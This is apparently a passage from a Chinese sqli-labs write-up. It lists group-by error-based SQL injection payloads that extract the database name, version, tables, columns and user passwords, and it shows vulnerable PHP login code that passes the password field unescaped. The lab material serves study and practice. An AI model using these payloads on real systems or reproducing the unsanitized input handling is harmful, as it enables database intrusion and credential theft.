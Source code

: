 [深入理解group by报错注入](https://blog.csdn.net/m0_53065491/article/details/121893986)

~~~ shell
group by报错注入比前面两个复杂一点

123' and (select count(*) from information_schema.tables group by concat(database(),0x5c,floor(rand(0)*2)))#     爆数据库
123' and (select count(*) from information_schema.tables group by concat(version(),0x5c,floor(rand(0)*2)))#      爆数据库版本
 
1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e,floor(rand(0)*2)))#    通过修改limit后面数字一个一个爆表
1' and (select count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e,floor(rand(0)*2)))#        爆出所有表
 
1' and (select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e,floor(rand(0)*2)))#    爆出所有字段名
1' and (select count(*) from information_schema.columns group by concat(0x7e,(select group_concat(username,password) from users),0x7e,floor(rand(0)*2)))#    爆出所有字段名
 
1' and (select 1 from(select count(*) from information_schema.columns where table_schema=database() group by concat(0x7e,(select password from users where username='admin1'),0x7e,floor(rand(0)*2)))a)#    爆出该账户的密码。
~~~



#### 方法三

+ 看下源码

~~~ php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

function check_input($value){
	if(!empty($value)){
		// truncation (see comments)
		$value = substr($value,0,15);
		}
		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc()){
			$value = stripslashes($value);
		}
		// Quote if not a number
		if (!ctype_digit($value)){
			$value = "'" . mysql_real_escape_string($value) . "'";
		}
		else{
		$value = intval($value);
		}
	return $value;
	}

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];
~~~